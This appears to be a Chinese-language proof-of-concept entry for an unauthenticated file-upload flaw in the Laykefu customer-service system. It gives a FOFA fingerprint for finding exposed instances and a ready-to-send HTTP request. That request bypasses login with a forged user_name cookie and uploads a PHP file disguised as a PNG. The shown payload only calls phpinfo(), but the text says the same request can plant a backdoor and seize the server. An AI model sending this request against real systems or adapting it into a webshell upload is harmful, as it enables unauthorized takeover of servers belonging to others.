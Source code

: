 ## Laykefu客服系统任意文件上传漏洞

Laykefu客服系统/admin/users/upavatar.html接口处存在文件上传漏洞，而且当请求中Cookie中的”user_name“不为空时即可绕过登录系统后台，未经身份验证的攻击者可利用此问题，上传后门文件，获取服务器权限。

## fofa
```
icon_hash="-334624619"
```
![image](https://github.com/user-attachments/assets/0ef1ab26-3c9a-41f0-8889-b67920f04022)

## poc
```
POST /admin/users/upavatar.html HTTP/1.1
Host: xxx.xxx.xxx
Content-Length: 194
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36 Edg/107.0.1418.26
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3OCVBiwBVsNuB2kR
Origin: http://xxx.xxx.xxx
Referer: http://xxx.xxx.xxx/admin/users/edituser/id/1.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user_name=1; user_id=3
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Edge";v="107", "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Connection: close

------WebKitFormBoundary3OCVBiwBVsNuB2kR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundary3OCVBiwBVsNuB2kR--
```
![44dcbdbc80e1e61fca16aff0516cf6c0](https://github.com/wy876/POC/assets/139549762/414797a3-6eb4-4466-a79e-9806adf1c8be)

![d0aeeb4590a1dd0ce9402db1a7888177](https://github.com/wy876/POC/assets/139549762/ad84b8aa-5358-4fb1-881c-edda45b69eb1)
